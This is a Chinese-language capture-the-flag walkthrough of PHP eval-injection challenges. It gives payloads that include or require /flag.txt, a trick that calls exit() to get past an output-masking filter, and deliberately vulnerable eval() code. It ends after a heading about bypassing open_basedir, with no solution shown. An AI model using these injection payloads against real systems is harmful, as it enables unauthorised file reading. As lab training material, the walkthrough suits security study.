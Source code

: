 

## 68-70-文件包含函数

highlight_file被ban：

```
c=include(’/flag.txt’);
c=require(’/flag.txt’);
c=require_once(’/flag.txt’);
```



## 71-exit()

```php
<?php
error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}
?>
```

大致意思是：
`$s = ob_get_contents();` 命令执行完毕后获取缓冲区内容赋给$s
`ob_end_clean();` 然后清空缓冲区
`preg_replace("/[0-9]|[a-z]/i","?",$s);` 再把所有输出的字符替换为?

可以执行exit();让后面的代码不执行直接退出：

```
c=include('/flag.txt');exit(0);
```

## 72-绕过open_basedir

```php
<?php
error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>
```
